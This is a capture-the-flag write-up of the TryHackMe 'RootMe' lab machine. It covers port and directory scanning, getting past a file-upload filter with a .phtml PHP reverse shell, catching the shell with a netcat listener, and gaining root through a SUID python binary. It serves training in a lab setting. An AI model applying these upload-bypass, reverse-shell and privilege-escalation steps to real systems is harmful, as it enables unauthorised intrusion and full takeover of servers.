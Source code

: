 ```yaml
---
title: "TryHackMe - RootMe"
author: Nasrallah
description: ""
date: 2022-01-03 00:00:00 +0000
categories : [TryHackMe]
tags: [tryhackme, linux, web, gobuster, suid, privesc, python, reverse-shell, filter]
---
```


<div align="center"> <script src="https://tryhackme.com/badge/367641"></script> </div>

---

Hello l33ts, I hope you are doing well. Today we are going to look at [RootMe](https://tryhackme.com/room/rrootme), a medium machine from TryHackMe. Let's start.

## **Description**

A ctf for beginners, can you root me?

## **Enumeration**

### nmap

Let's start our nmap scan:
`sudo nmap -sC -sV -T4 {target_IP} -oN nmap.scan`

-sV : find the version of all the service running on the target

-sC : run all the default scripts

-oN : save the output in a file called nmap

```terminal
$ sudo nmap -sC -sV -T4 10.10.125.128 -oN nmap.scan
Starting Nmap 7.92 ( https://nmap.org ) at 2022-01-03 03:17 EST
Nmap scan report for 10.10.125.128
Host is up (0.11s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: HackIT - Home
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.89 seconds

```

We have to open ports:

- 22(SSH)
- 80(http)

### Gobuster

Since we have a web server, let's do a directory scan using Gobuster:
`gobuster dir -w /usr/share/wordlists/dirb/common.txt -x php,txt -u {target_IP}`

```terminal
$ gobuster dir -w /usr/share/wordlists/dirb/common.txt -x php,txt -u http://10.10.125.128 | tee gobuster
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.125.128
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php,txt
[+] Timeout:                 10s
===============================================================
2022/01/03 03:35:19 Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/.htaccess.txt        (Status: 403) [Size: 278]
/.hta                 (Status: 403) [Size: 278]
/.htpasswd.php        (Status: 403) [Size: 278]
/.htaccess.php        (Status: 403) [Size: 278]
/.hta.php             (Status: 403) [Size: 278]
/.htpasswd.txt        (Status: 403) [Size: 278]
/.hta.txt             (Status: 403) [Size: 278]
/css                  (Status: 301) [Size: 312] [--> http://10.10.125.128/css/]
/index.php            (Status: 200) [Size: 616]                                 
/index.php            (Status: 200) [Size: 616]                                 
/js                   (Status: 301) [Size: 311] [--> http://10.10.125.128/js/]  
/panel                (Status: 301) [Size: 314] [--> http://10.10.125.128/panel/]
/server-status        (Status: 403) [Size: 278]                                   
/uploads              (Status: 301) [Size: 316] [--> http://10.10.125.128/uploads/]

===============================================================
2022/01/03 03:37:50 Finished
===============================================================
```

- dir : for directory scan
- u : URL
- w : Wordlist
- x : Search for extensions(php,txt,html..)

We found 2 directories that stand out: **/panel** and **/uploads**. Let's see what's on each one.

![panel](/assets/img/tryhackme/rootme/panel.png)

We have an upload page here, and everything we upload goes to the **/uploads** directory. with that, let's try to upload a php reverse shell. I will be using [pentestmonkey's reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php).

![error](/assets/img/tryhackme/rootme/error.png)

> you have to change the ip address in the script to your attacking machine's ip address: run the command `ip a show tun0` or `ifconfig` to get your ip address

![change-this](/assets/img/tryhackme/rootme/change.png)

Oh! It seems that we can't upload a `.php` file, let's try changing that extension to another one. Some of the extensions that we can use are:`.phar - .pht - phps - phtml - php3 - .php4 - .php5 - .php7`

After some try and error, we found that `.phtml` extension works.

## **Foothold**

Let's visit **/uploads** page, we should see our reverse shell there.

![shell](/assets/img/tryhackme/rootme/shell.png)

Let's now run a listener on our machine using this command `nc -nlvp 1234`.

> the port should be the same one in the reverse shell script!!

After that, let's execute the script by clicking on the file or by visiting it on (http://{target_IP}/uploads/shell.phtml)

```terminal
$ nc -lnvp 1234
listening on [any] 1234 ...
connect to [10.11.31.131] from (UNKNOWN) [10.10.125.128] 39406
Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 09:33:55 up  1:48,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@rootme:/$ export TERM=xterm
export TERM=xterm
www-data@rootme:/$ ^Z       #typed ctrl+z
zsh: suspended  nc -lnvp 1234

┌──(kali㉿kali)-[]
└─$ stty raw -echo; fg                                                                                                                             148 ⨯ 1 ⚙
[1]  + continued  nc -lnvp 1234         #typed Enter

www-data@rootme:/$
```

We got our shell, i executed some command there to get a fully functional shell. The commands are:

```terminal
[target machine] python3 -c 'import pty;pty.spawn("/bin/bash")'

[target machine] export TERM=xterm

[target machine] ctrl+z

[attacker machine] stty raw -echo;fg
```

## **Privilege Escalation**

Let's now do some enumeration and see if we can find some privilege escalation vectors.
`sudo -l` and `id` are always the go to commands once you get access to a machine.

```terminal
www-data@rootme:/$ sudo -l
[sudo] password for www-data:
www-data@rootme:/$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@rootme:/$
```

That gave us nothing, let's search for some SUID binaries:

```terminal
www-data@rootme:/$ find / -type f -perm -04000 2>/dev/null                                                                                           [10/238]
/usr/lib/dbus-1.0/dbus-daemon-launch-helper                                                                                                                  
/usr/lib/snapd/snap-confine                                                                                                                                  
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic                                                                                                                   
/usr/lib/eject/dmcrypt-get-device                                                                                                                            
/usr/lib/openssh/ssh-keysign                                                                                                                                 
/usr/lib/policykit-1/polkit-agent-helper-1                                                                                                                   
/usr/bin/traceroute6.iputils                                                                                                                                 
/usr/bin/newuidmap                                                                                                                                           
/usr/bin/newgidmap                                                                                                                                           
/usr/bin/chsh                                                                                                                                                
/usr/bin/python
/usr/bin/at
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/newgrp
.
.
.
```

That gave us a lot of binaries, but the one that looks interesting for us is **/usr/bin/python**. After looking for python in [GTFOBins](https://gtfobins.github.io), we find that we can execute this command `python -c 'import os; os.execl("/bin/sh", "sh", "-p")'` to get a root shell, let's do it:

```terminal
www-data@rootme:/$ python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
# whoami
root
# ls /root
root.txt
# ls /var/www
html  user.txt
#
```

Great, and just like that, we got root, I hope you guys enjoyed it.

See you in the next hack!
